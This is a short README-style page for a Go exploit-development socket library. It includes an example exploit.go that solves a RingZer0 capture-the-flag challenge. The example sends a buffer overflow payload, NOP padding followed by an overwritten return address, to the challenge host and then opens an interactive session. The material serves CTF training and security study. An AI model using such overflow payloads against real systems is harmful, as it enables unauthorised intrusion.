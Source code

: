 ##### http://www.securitysignal.org/2015/12/securitysocket-remote-exploit-library.html #####

Install Library: go get github.com/hdbreaker/Go-SecuritySocket/ssocket

Example: # Solution with Go of Challenge https://ringzer0team.com/challenges/181

#exploit.go
package main

import (

	"bytes"
	"encoding/binary"
	"strings"
	
	"github.com/hdbreaker/Go-SecuritySocket/ssocket"
)

func main() {

	var raoPromptAdress uint32 = 0x40149B //dirección de memoria de rao_promt
	buffRao := new(bytes.Buffer)
	binary.Write(buffRao, binary.LittleEndian, &raoPromptAdress)
	payload := strings.Repeat("\x90", 56) + string(buffRao.Bytes())
	ss := ssocket.SecuritySocket{Protocol: "tcp", Host: "ringzer0team.com:1001"}
	conn := ss.Connect()
	ss.Send(conn, payload)
	ss.Interactive(conn)

}
